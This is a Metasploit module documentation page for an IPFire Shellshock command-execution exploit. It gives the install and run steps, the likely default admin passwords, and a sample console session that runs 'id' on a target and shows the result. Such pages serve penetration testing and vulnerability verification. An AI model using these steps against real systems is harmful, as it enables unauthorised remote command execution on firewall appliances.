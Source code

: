 ## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.15-core82/ipfire-2.15.i586-full-core82.iso)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_bashbug_exec```
  4. Do: ```set rhost 10.10.10.10```
  5. Do: ```set PASSWORD admin```
  6. Do: ```set CMD ls```
  7. Do: ```run```
  8. You should see the output of the command that was run.

## Options

  **PASSWORD**

  Password is set at install.  May be blank, 'admin', or 'ipfire'.
  
  **CMD**
  
  This is the command to run on the system.

## Scenarios

  Example of running the ID command
  ```
    msf > use exploit/linux/http/ipfire_bashbug_exec 
    msf exploit(ipfire_bashbug_exec) > set PASSWORD admin
    PASSWORD => admin
    msf exploit(ipfire_bashbug_exec) > set rhost 192.168.2.202
    rhost => 192.168.2.202
    msf exploit(ipfire_bashbug_exec) > set CMD id
    CMD => id
    msf exploit(ipfire_bashbug_exec) > exploit
    
    [+] uid=99(nobody) gid=99(nobody) groups=16(dialout),23(squid),99(nobody)
    [*] Exploit completed, but no session was created.
  ```
